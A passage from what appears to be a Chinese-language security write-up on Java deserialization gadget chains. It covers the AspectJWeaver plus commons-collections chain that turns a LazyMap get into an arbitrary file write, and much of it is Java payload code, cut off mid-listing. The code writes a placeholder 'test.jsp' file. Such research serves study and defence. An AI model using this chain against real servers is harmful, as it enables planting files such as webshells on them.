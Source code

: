 参考：
[ysoserial-beanshell（CVE-2016-2510）](https://xz.aliyun.com/t/6964)
[Java 反序列化漏洞（五） - ROME/BeanShell/C3P0/Clojure/Click/Vaadin](https://su18.org/post/ysoserial-su18-5/#beanshell)


### AspectJWeaver反序列化
发现存在依赖 aspectjweaver-1.7.4.jar ，配合 commons-collections 存在一个 non RCE 的任意文件写利用链

在类`org.aspectj.weaver.tools.cache.SimpleCache`中有一个继承 HashMap 的内部类 StoreableCachingMap
![](https://img-blog.csdnimg.cn/25377363297a4e46adb0c4754bfe08f3.png)

它重写了 HashMap 的 put 方法，传入的 key 为文件名，value 为写入文件的内容
![](https://img-blog.csdnimg.cn/e738ab5becb74a0b94444b3c46b92c92.png)

跟进 writeToPath 方法
![](https://img-blog.csdnimg.cn/b6be873be24741329da6465613ffed16.png)

写入文件的路径为`this.folder + File.separator + key`，所以说只要能触发`SimpleCache$StoreableCachingMap`的 put 方法就能执行写文件操作

在`org.apache.commons.collections.map.LazyMap`的 get 方法中调用了 put 方法
![](https://img-blog.csdnimg.cn/41e32c3eb4e347549cd0d04a0db48bc9.png)

最终的payload：
```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.AccessibleObject;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.nio.charset.StandardCharsets;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;

public class AspectJWeaver {
    public static void main(String[] args) throws Exception{
        String filename    = "test.jsp";
        String filepath    = "./";
        String filecontent = "test123";

        Constructor ctor = getFirstCtor("org.aspectj.weaver.tools.cache.SimpleCache$StoreableCachingMap");
        Object simpleCache = ctor.newInstance(filepath, 12);
        Transformer ct = new ConstantTransformer(filecontent.getBytes(StandardCharsets.UTF_8));
        Map lazyMap = LazyMap.decorate((Map)simpleCache, ct);
        TiedMapEntry entry = new TiedMapEntry(lazyMap, filename);

        HashSet map = new HashSet(1);
        map.add("foo");
        Field f = null;
        try {
            f = HashSet.class.getDeclaredField("map");
        } catch (NoSuchFieldException e) {
            f = HashSet.class.getDeclaredField("backingMap");
        }

        setAccessible(f);
        HashMap innimpl = (HashMap) f.get(map);
```